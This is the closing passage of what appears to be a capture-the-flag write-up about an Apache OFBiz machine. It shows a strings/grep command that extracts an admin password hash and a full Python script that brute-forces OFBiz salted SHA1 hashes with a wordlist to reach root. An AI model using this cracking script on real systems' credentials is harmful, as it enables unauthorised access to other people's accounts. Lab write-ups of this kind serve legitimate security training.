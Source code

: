 ```bash
strings * | grep admin | cut -c1-1200 | sort -u
```

This reveals another hash: **$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I**. To decipher this hash, I employ a Python script, successfully obtaining the plaintext and solidifying my position as root.

## The End

```python
import argparse
import hashlib
import base64
import os

def cryptBytes(hash_type, salt, value):
    if not hash_type:
        hash_type = "SHA"
    if not salt:
        salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
    hash_obj = hashlib.new(hash_type)
    hash_obj.update(salt.encode('utf-8'))
    hash_obj.update(value)
    hashed_bytes = hash_obj.digest()
    result = f"${hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
    return result

def getCryptedBytes(hash_type, salt, value):
    try:
        hash_obj = hashlib.new(hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
    except hashlib.NoSuchAlgorithmException as e:
        raise Exception(f"Error while computing hash of type {hash_type}: {e}")

def main():
    parser = argparse.ArgumentParser(description="Brute force Apache OFBiz SHA1 hashes. Just something you might want to do....")
    parser.add_argument("--hash-string", help="Hash string in the format '$TYPE$SALT$HASH'", required=True)
    parser.add_argument("--wordlist", help="Path to the wordlist file", default="/usr/share/wordlists/rockyou.txt", required=False)

    args = parser.parse_args()

    hash_components = args.hash_string.split('$')
    hash_type, salt, findhash = hash_components[1], hash_components[2], hash_components[3]

    attempts = 0

    with open(args.wordlist, 'r', encoding='latin-1') as password_list:
        print ("[+] Attempting to crack....")
        for password in password_list:
            attempts += 1
            value = password.strip()
            hashed_password = cryptBytes(hash_type, salt, value.encode('utf-8'))
            if hashed_password == args.hash_string:
                print(f'Found Password: {value}')
                print(f'hash: {hashed_password}')
                print(f'(Attempts: {attempts})')
                print("[!] Super, I bet you could log into something with that!")
```